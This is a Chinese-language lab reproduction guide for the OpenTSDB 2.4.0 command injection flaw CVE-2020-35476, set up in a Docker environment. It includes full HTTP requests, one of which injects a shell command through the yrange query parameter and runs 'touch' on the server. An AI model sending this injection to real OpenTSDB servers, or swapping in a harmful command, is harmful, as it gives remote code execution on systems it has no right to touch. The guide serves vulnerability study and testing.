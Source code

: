 # OpenTSDB 命令注入漏洞 CVE-2020-35476

## 漏洞描述

OpenTSDB 是一款基于 Hbase 的、分布式的、可伸缩的时间序列数据库。在其 2.4.0 版本及之前，存在一处命令注入漏洞。

参考链接：

- [OpenTSDB/opentsdb#2051](https://github.com/OpenTSDB/opentsdb/issues/2051)
- [https://packetstormsecurity.com/files/136753/OpenTSDB-Remote-Code-Execution.html](https://packetstormsecurity.com/files/136753/OpenTSDB-Remote-Code-Execution.html)

## 环境搭建

Vulhub 执行如下命令启动一个 OpenTSDB 2.4.0：

```
docker compose up -d
```

服务启动后，访问`http://your-ip:4242`即可看到 OpenTSDB 的 Web 接口。

![](images/OpenTSDB%20命令注入漏洞%20CVE-2020-35476/image-20240307165806970.png)

## 漏洞复现

利用这个漏洞需要知道一个 metric 的名字，可以通过`http://your-ip:4242/api/suggest?type=metrics&q=&max=10`查看 metric 列表：

![](images/OpenTSDB%20命令注入漏洞%20CVE-2020-35476/image-20240307165830409.png)

这里的 metric 列表是空的。但当前 OpenTSDB 开启了自动创建 metric 功能（`tsd.core.auto_create_metrics = true`），所以我们可以使用如下 API 创建一个名为`sys.cpu.nice`的 metric 并添加一条记录：

```
POST /api/put/ HTTP/1.1
Host: your-ip:4242
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 150

{
    "metric": "sys.cpu.nice",
    "timestamp": 1346846400,
    "value": 20,
    "tags": {
       "host": "web01",
       "dc": "lga"
    }
}
```

![](images/OpenTSDB%20命令注入漏洞%20CVE-2020-35476/image-20240307165935912.png)

如果目标 OpenTSDB 存在 metric，且不为空，则无需上述步骤。再次查看 metric 列表，metric 已经创建完成：

![](images/OpenTSDB%20命令注入漏洞%20CVE-2020-35476/image-20240307170059167.png)

发送如下数据包，其中参数`m`的值必须包含一个有数据的 metric：

```
GET /q?start=2000/10/21-00:00:00&m=sum:sys.cpu.nice&o=&ylabel=&xrange=10:10&yrange=[0:system(%27touch%20/tmp/awesome_poc%27)]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json HTTP/1.1
Host: your-ip:4242
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
Connection: close
```

![](images/OpenTSDB%20命令注入漏洞%20CVE-2020-35476/image-20240307170532492.png)

进入容器中可见 `touch /tmp/awesome_poc` 已成功执行：

![](images/OpenTSDB%20命令注入漏洞%20CVE-2020-35476/image-20240307170625205.png)
